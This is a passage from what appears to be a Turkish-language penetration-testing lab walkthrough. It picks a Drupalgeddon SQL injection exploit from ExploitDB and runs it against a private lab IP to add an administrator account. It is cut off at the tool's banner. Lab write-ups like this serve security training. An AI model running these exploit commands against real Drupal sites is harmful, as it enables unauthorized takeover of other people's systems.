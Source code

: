 Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclos | exploits/php/webapps/44501.txt
--------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
</pre>
<p>'Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin Us | exploits/php/webapps/34992.py' satırındaki python kodunu kullanabiliriz.</p>
<pre>
python /usr/share/exploitdb/exploits/php/webapps/34992.py -h
</pre>
<pre>
Usage: 34992.py -t http[s]://TARGET_URL -u USER -p PASS


Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password
</pre>
<p>İsterleri doldurarak kodu çalıştıralım...</p>

<hr>
<h3>3	Sisteme Sızma</h3>
<pre>
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.171.138 -u kuday -p kuday
</pre>
<pre>
  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   